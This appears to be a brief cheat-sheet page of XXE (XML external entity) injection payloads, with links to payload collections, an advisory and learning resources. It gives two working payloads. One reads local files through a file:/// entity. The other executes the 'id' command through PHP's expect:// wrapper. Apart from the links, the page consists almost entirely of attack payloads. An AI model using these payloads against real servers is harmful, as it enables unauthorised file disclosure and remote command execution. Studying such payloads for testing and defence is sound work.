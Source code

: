 ```
<!DOCTYPE aa[<!ELEMENT bb ANY>
<!ENTITY xxe SYSTEM "file:///">]>
<foo>
  <bar>&xxe;</bar>
</foo>
```
```
# Only works in the PHP 'expect' module is available

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<foo>
    <bar>&xxe;</bar>
</foo>
```

<p>:orange_book: Payloads: 
<p>https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection</p>
<p>https://www.synacktiv.com/ressources/advisories/TIBCO_JasperReports_Server_XXE.pdf</p>
<p>:orange_book: Blind XXE exemplos: https://portswigger.net/web-security/xxe/blind</p>
<p>:orange_book: XXE Learning: https://gosecure.github.io/xxe-workshop/#0</p>

